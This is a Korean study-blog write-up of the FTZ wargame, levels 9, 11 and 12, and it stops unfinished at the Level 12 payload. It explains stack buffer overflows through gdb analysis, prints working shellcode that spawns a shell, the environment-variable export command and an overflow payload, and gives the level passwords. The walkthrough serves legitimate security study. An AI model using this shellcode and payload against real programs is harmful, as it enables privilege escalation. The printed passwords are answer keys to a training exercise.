 ```yaml
---
title: FTZ(Level 9, 11, 12)
author: 100zja
date: 2020-08-17
categories: [study]
tags: [ftz]
toc: ture
---
```


## **Level9**  

(1) gdb로 풀기  

![1](/images/구1.PNG) 

ls -al로 파일들을 확인하고  
힌트가 있음을 확인하고 힌트를 읽는다 

![2](/images/구2.PNG)  
코드를 해석해보면  
* char형 변수 buf, buf2가 10 크기의 배열로 각각 선언되고  

* 40만큼의 문자열을 fgets가 입력받아 buf에 저장한다  

* buf2에 저장된 문자가 go와 일치한다면 "Good skill!" 문구 출력과 3010의 level10 권한을 설정하고

* /bin/bash 쉘을 실행한다  

![3](/images/구3.PNG)  

gdb를 실행할 수 있는 권한이 있는 tmp로 이동한 뒤에 cat 명령어로 실행 파일을 생성한 뒤 컴파일한다

![4](/images/구4.PNG)  

gdb를 실행해서 메모리를 확인한다  
* main+3에서 40바이트의 메모리가 할당된다  
* main+43에서 eax에 ebp-40의 주소를 저장함 (buf)    
* main+65에서 eax에 ebp-24의 주소를 저장함(buf2)  
===> buf에서 입력 시에 ebp-40을 넘겨 16바이트를 넘기면 ebp-24 공간을 넘어가 버퍼 오버플로우 발생가능  

![5](/images/구5.PNG) 

/usr/bin으로 이동해 bof 소스를 실행시켜 버퍼 오버플로우를 발생 시키고 level10의 권한을 얻어 my-pass로 확인한다  

### **level10 password : "interesting to hack!"**
-------------


## **Level11**  

![1](/images/십1.PNG)  
ls -al로 파일을 확인하고 cat hint 명령어를 통해 힌트를 열어본다  

![2](/images/십2.PNG)  
* int 배열과 char 배열을 받아옴
* 문자형 str배열의 크기는 256 바이트  
* 3092는 level12의 id임  
* 사용자가 입력한 값을 str에 넣고
* str 출력
====> strcpy에서 취약점이 발생해 버퍼 오버 플로우가 일어난다  

![3](/images/십4.PNG)  


test를 입력하니 그대로 출력된 것으로 보아 힌트가 attackme의 소스코드인 것을 알 수 있다.  

![4](/images/십5.PNG)  
attackme를 권한이 있는 tmp로 복사한 뒤 tmp로 이동해 gdb로 실행시킨다  
gdb를 해석해 보면  
* setreuid전에 확보된 메모리 : 108 + 8 (16진수) = 110 => 272 byte  
* main + 9 : SFP, RET =>8 byte  
===> 256(buffer) + 8(dummy) + 4(SFP) + 4(RET)  

![5](/images/십7.PNG)  
* export 명령어를 통해서 환경변수를 등록해준다  
    - export [환경변수명]=$(python -c 'print "쉘코드"')
* 쉘코드 : "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"  
![6](/images/십8.PNG)  
* env 명령어를 사용해 환경 변수를 확인한다  
    - env 명령어 : 현재 지정되어 있는 환경 변수들을 출력하거나, 새로운 환경 변수를 설정하고 적용된 내용을 출력하는 명령어  
    - env [옵션]... [name = 값]... [명령[인수]...]  

![7](/images/십9.PNG)  
![8](/images/십10.PNG) 

* getenv() 함수 : 환경변수를 읽는 역할  

* SHELLCODE를 실행시키는 프로그램을 짠 뒤 컴파일 해 준다  
dap을 실행해 보면 쉘코드 주소가 나타난다  

![9](/images/십11.PNG)  

* 마지막으로 RET 주소까지 가기 위해서는 268 byte가 필요하므로 페이로드(전송되는 데이터)를 작성해야한다 

* 0xbffffc1d를 리틀엔디안으로 변환하면 \x1d\xfc\xff\xbf  

* 페이로드를 완성하면 ./attackme `python -c 'print "A"*268+"\x1d\xfc\xff\xbf"'`  
그 뒤에 id를 확인하고 level12가 된 것을 확인하고 my-pass를 통해 비밀번호를 확인한다  

### **level12 password : "it is like this"**  
----------------


## **Level 12**

![1](/images/하나.PNG)  
ls -al 명령어로 존재하는 파일들을 확인한다  
힌트가 있는 것을 확인한다

![2](/images/둘.PNG)  
cat hint 명령어를 사용해 힌트를 확인한다  
힌트를 분석해보면  
* 문자형 배열이 256 크기로 선언된다
* level 13의 id가 있고
* gets 함수로 str변수에 입력을 받고
* 입력받은 내용을 printf로 출력한다  
===> gets 함수로 버퍼 오버플로우 취약점이 발생하게 된다

![3](/images/넷.PNG)  
attackme를 gdb로 보기 위해 권한이 있는 tmp 디렉토리로 복사한뒤 tmp로 이동해 gdb로 확인한다  
gdb를 확인해보면   
* main +3 : 264만큼의 메모리 확보  
    - RET - 4 byte
    - SFP - 4 byte
    - str - 256 byte   
===> return address를 덮어쓰기 위해서는 264(str) + 4(sfp) = 268 byte가 필요함  
* main + 49 : ebp - 264 -> str 버퍼부터 ebp까지 거리가 264임  
    - ret : ebp로부터 4byte 아래에 위치하기 때문에 268 byte가 된다(str 부터 ret 까지의 거리)  

문제를 해결하기 위해서는 level11 처럼 쉘코드를 이용해 환경변수에 등록해야한다  
* 쉘 코드 : "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"  

* 환경변수 : export 명령어 샤용  
    - export [환경변수명]=$(python -c 'print "쉘코드"')  
===> - export SHELLCODE=$(python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"') 를 환경변수로 등록한다  

![4](/images/다섯.PNG)  

그 다음 env 명령어로 등록된 환경변수를 확인한다  

![5](/images/여섯.PNG)  

환경변수에 등록된 쉘코드의 주소를 알아내기 위한 c언어 코드를 작성한 뒤 실행한다  

![6](/images/일곱.PNG)

코드를 컴파일 해준다  

![7](/images/여덟.PNG)  

컴파일 하고 실행해주면 쉘 코드의 주소가 나온다  

마지막으로 쉘 코드 주소를 리틀엔디안으로 변환하고 페이로드를 작성해 답을 구한다

쉘 코드 주소 : 0xbffffc1d  
리틀엔디안 변환 : \x1d\xfc\xff\xbf 

페이로드 : 